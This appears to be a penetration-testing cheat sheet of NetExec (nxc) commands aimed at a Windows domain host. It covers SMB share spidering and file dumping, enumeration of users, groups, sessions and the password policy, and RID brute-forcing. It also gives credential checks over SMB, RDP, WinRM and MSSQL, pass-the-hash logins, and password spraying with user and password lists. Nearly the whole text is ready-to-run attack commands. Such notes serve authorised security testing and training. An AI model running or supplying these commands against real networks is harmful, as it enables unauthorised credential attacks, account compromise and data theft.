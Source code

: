```shell
# Shares with Spider Plus
nxc smb 172.16.150.20 -u john -p 'Password123!' -M spider_plus

# Shares with Spider Plus with Dump on Kali (Avoid running it with /24 IP range)
nxc smb 172.16.150.20 -u john -p 'Password123!' -M spider_plus -o READ_ONLY=False

# Domain Password Policy
nxc smb 172.16.150.20 -u john -p 'Password123!' --pass-pol

# Domain Users
nxc smb 172.16.150.20 -u john -p 'Password123!' --users

# Logged Users
nxc smb 172.16.150.20 -u john -p 'Password123!' --loggedon-users

# RID
nxc smb 172.16.150.20 -u john -p 'Password123!' --rid-brute

# Groups
nxc smb 172.16.150.20 -u john -p 'Password123!' --groups

# Local Groups
nxc smb 172.16.150.20 -u john -p 'Password123!' --local-groups

# Sessions
nxc smb 172.16.150.20 -u john -p 'Password123!' --sessions

# Disk
nxc smb 172.16.150.20 -u john -p 'Password123!' --disks

# RDP
nxc rdp 172.16.150.20 -u john -p 'Password123!'
nxc rdp 172.16.150.20 -u john -p 'Password123!' --local-auth

# WinRM
nxc winrm 172.16.150.20 -u john -p 'Password123!'
nxc winrm 172.16.150.20 -u john -p 'Password123!' --local-auth

# MSSQL
nxc mssql 172.16.150.20 -u john -p 'Password123!'
nxc mssql 172.16.150.20 -u john -p 'Password123!' --local-auth
```
## nxc Checking Credentials & Password Spraying
Important Note: Always check Domain Password Policy before Password Spraying to prevent Account Lockouts.
```shell
# Check Credentials - with Password
nxc smb 172.16.150.20 -u john -p 'Password123!'

# Check Credentials - with Hash
nxc smb 172.16.150.20 -u john -H 'NT_HASH'
nxc smb 172.16.150.20 -u john -H 'LM_HASH:NT_HASH'

# Password Spraying
nxc smb 172.16.150.20 -u john jane marcus -p 'Password123!'
nxc smb 172.16.150.20 -u john -p 'Password123!' 'PleaseDontHackMe' '1337H4x0r'
nxc smb 172.16.150.20 -u domain_users.txt -p passwords_found.txt
nxc smb 172.16.150.20 -u domain_users.txt -p passwords_found.txt --continue-on-success

# Local Authentication
nxc smb 172.16.150.20 -u john -p 'Password123!' --local-auth
nxc smb 172.16.150.20 -u domain_users.txt -p passwords_found.txt --local-auth
```